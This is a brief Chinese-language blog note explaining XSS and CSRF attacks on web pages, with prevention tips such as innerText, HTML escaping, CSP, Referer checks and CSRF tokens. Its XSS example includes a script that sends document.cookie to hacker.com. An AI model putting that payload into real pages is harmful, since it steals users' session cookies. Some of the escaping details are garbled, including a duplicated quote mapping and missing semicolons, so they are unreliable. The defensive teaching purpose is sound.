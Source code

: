 ```yaml
---
title: 安全相关
date: 2018-06-10 22:42:09
tags: [安全]
categories: ["其他"]
---
```


# 安全

## XSS 攻击

举例

```javascript
div.innerHTML = (
  <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
);
// 恶意代码就被执行了，这就是 XSS
```

<!--more-->

预防
不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
如果你一样要用 innerHTML，字符过滤
把 < 替换成 `&lt`;
把 > 替换成 `&gt`;
把 & 替换成 `&amp`;
把 ' 替换成 `&#39`;
把 ' 替换成 `&quot`;
代码 div.innerHTML = userComment.replace(/>/g, '`&lt;`').replace...
使用 CSP Content Security Policy

## CSRF 攻击

利用用户的登录态发起恶意请求
过程
用户在 qq.com 登录
用户切换到 hacker.com（恶意网站）
hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
用户在不知不觉中添加 hacker 为好友。
用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
避免
检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
使用 csrf_token 来解决

